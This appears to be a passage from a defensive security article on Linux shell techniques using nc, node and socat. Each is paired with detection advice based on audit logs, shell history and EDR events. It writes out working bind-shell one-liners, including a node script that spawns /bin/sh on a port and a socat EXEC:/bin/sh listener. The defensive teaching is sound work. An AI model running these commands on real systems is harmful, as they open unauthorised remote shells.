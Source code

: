 ```
# nc target.com 12345  id (After connecting with the command above, the "id" command was tried.)    uid=0(root) gid=0(root) groups=0(root)
```

For detection; All uses of the nc command except known operations  require further investigation. Therefore, if the execution of the  command is not a known activity, it is considered suspicious. Also the  uses, especially with the -e and -l parameters, can be questionable.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “nc” | egrep “l|e”   - Searchable from history on Linux system.  # history | grep “nc” | egrep “l|e”   or   # cat ~/.bash_history | grep “nc” | egrep “l|e”  - It can be searched on “nc” process create or network connection events in EDR/XDR logs. Afterwards, it is checked whether there is a "-e" or  “-l” parameter on the command line.

### **# node command**

node (nodejs) is an application that allows to run javascript  applications on the server side. As stated in the example below, a bind  shell (reverse shell with minor changes) can be prepared with a small  port listening script that can be written with nodejs.

```
# export LPORT=12345  # node -e 'sh = require("child_process").spawn("/bin/sh");  require("net").createServer(function (client) {   client.pipe(sh.stdin);   sh.stdout.pipe(client);   sh.stderr.pipe(client);}).listen(process.env.LPORT)'
```

For detection; Nodejs is not installed by default on most *nix  systems. Installation or direct use of the application should be  monitored and investigated. Listen function or “-e” (eval) parameter  usage should be monitored as well.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “node” | grep "\-e"   - Searchable from history on Linux system.  # history |grep “node” | grep "\-e"   or   # cat ~/.bash_history | grep “node” | grep "\-e"   - It can be searched from "node" process create or network connection  events in EDR/XDR logs. Afterwards, it is checked whether there is a  "-e" parameter on the command line.

### **# socat command**

socat command can be considered as an alternative to the netcat (nc)  command. It provides access to the target system via tcp or udp  protocol. It enables to run the information that comes with the "EXEC"  parameter. Remote command execution can be achieved by sending this  information to a *nix shell.

```
# LPORT=12345  # socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

For detection; All uses of the socat command except for the known  operations require investigation. In addition, the "EXEC" parameter and  the tcp-connect parameter of the command should be considered suspicious and further investigated.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “socat” | grep -i “EXEC”   - Searchable from history on Linux system.# history |grep “socat” | grep -i “EXEC”   or   # cat ~/.bash_history | grep “socat” | grep -i “EXEC”   - It can be searched from "socat" process create or network connection  events in EDR/XDR logs. Afterwards, it is checked whether there is an  “EXEC” parameter on the command line.

